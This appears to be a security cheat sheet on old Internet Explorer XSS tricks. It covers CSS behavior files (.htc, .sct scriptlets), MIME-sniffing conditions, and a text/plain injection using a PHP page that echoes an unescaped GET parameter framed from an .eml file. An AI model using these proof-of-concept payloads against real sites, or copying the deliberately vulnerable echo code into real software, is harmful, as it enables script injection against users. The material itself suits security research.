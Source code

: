 ### Browser tricks - IE

#### XSS In CSS(IE11+Behaviors)

##### .htc

htc.html

    <meta http-equiv="X-UA-Compatible" content="IE=9">
    <input style="behavior: url(xss.htc)">


xss.htc

    <script>alert(1)</script>


> 加载的MIME类型必须为**text/x-component**, Compat Mode必须为**IE=9** 


##### .sct
sct.html

    <meta http-equiv="X-UA-Compatible" content="IE=10">
    <input style="behavior: url(xss.txt)">

xss.txt

    <scriptlet>
        <implements type="behavior"/>
        <script>alert(1)</script>
    </scriptlet>


> 可以利用IE的类型嗅探(MIME sniffing)，类型可以为
- text/html
- text/plain
- image/*
- video/mpeg
- video/avi

##### XSS In Text/Plain

plain.php

```
<?php
header("Content-Type: text/plain");
echo "Hello: ".$_GET["name"];
?>

```


plain.eml



```
TESTEML
Content-Type: text/html
Content-Transfer-Encoding: quoted-printable

=3Ciframe=20src=3D=27plain.php=3Fname=3D=3CHTML=3E=3Ch1=3Eit=20works=3C=2Fh1=3E=27=3E=3C=2Fiframe=3E

```

    
    
    
    
###### Reference :  https://jankopecky.net/index.php/2017/04/18/0day-textplain-considered-harmful/
###### Reference :  https://blog.innerht.ml/cascading-style-scripting/
    
